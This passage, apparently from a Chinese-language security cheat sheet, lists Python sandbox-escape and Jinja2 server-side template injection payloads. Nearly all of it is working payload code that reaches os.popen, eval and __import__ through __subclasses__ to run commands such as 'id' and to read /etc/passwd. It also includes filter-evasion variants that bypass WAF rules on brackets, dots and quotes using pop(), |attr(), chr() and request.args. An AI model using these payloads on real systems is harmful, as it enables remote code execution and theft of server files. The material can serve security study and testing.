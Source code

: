 ```
[].__class__.__bases__[0].__subclasses__()[40]('/tmp').write('test')

#命令执行
#os执行
[].__class__.__bases__[0].__subclasses__()[59].__init__.func_globals.linecache下有os类，可以直接执行命令：
[].__class__.__bases__[0].__subclasses__()[59].__init__.func_globals.linecache.os.popen('id').read()
#eval,impoer等全局函数
[].__class__.__bases__[0].__subclasses__()[59].__init__.__globals__.__builtins__下有eval，__import__等的全局函数，可以利用此来执行命令：
[].__class__.__bases__[0].__subclasses__()[59].__init__.__globals__['__builtins__']['eval']("__import__('os').popen('id').read()")
[].__class__.__bases__[0].__subclasses__()[59].__init__.__globals__.__builtins__.eval("__import__('os').popen('id').read()")
[].__class__.__bases__[0].__subclasses__()[59].__init__.__globals__.__builtins__.__import__('os').popen('id').read()
[].__class__.__bases__[0].__subclasses__()[59].__init__.__globals__['__builtins__']['__import__']('os').popen('id').read()

#python3.7
#命令执行
{% for c in [].__class__.__base__.__subclasses__() %}{% if c.__name__=='catch_warnings' %}{{ c.__init__.__globals__['__builtins__'].eval("__import__('os').popen('id').read()") }}{% endif %}{% endfor %}
#文件操作
{% for c in [].__class__.__base__.__subclasses__() %}{% if c.__name__=='catch_warnings' %}{{ c.__init__.__globals__['__builtins__'].open('filename', 'r').read() }}{% endif %}{% endfor %}
#windows下的os命令
"".__class__.__bases__[0].__subclasses__()[118].__init__.__globals__['popen']('dir').read()
```


### 5.waf绕过
#### 1.过滤[]和.
只过滤[]

```
pop() 函数用于移除列表中的一个元素（默认最后一个元素），并且返回该元素的值。
''.__class__.__mro__.__getitem__(2).__subclasses__().pop(40)('/etc/passwd').read()
''.__class__.__mro__.__getitem__(2).__subclasses__().pop(59).__init__.func_globals.linecache.os.popen('ls').read()

若.也被过滤，使用原生JinJa2函数|attr()
将request.__class__改成request|attr("__class__")
```
#### 2.过滤引号
```
#chr函数
{% set chr=().__class__.__bases__.__getitem__(0).__subclasses__()[59].__init__.__globals__.__builtins__.chr %}
{{().__class__.__bases__.__getitem__(0).__subclasses__().pop(40)(chr(47)%2bchr(101)%2bchr(116)%2bchr(99)%2bchr(47)%2bchr(112)%2bchr(97)%2bchr(115)%2bchr(115)%2bchr(119)%2bchr(100)).read()}}#request对象
{{().__class__.__bases__.__getitem__(0).__subclasses__().pop(40)(request.args.path).read() }}&path=/etc/passwd

#命令执行
{% set chr=().__class__.__bases__.__getitem__(0).__subclasses__()[59].__init__.__globals__.__builtins__.chr %}
{{().__class__.__bases__.__getitem__(0).__subclasses__().pop(59).__init__.func_globals.linecache.os.popen(chr(105)%2bchr(100)).read() }}
{{().__class__.__bases__.__getitem__(0).__subclasses__().pop(59).__init__.func_globals.linecache.os.popen(request.args.cmd).read() }}&cmd=id
```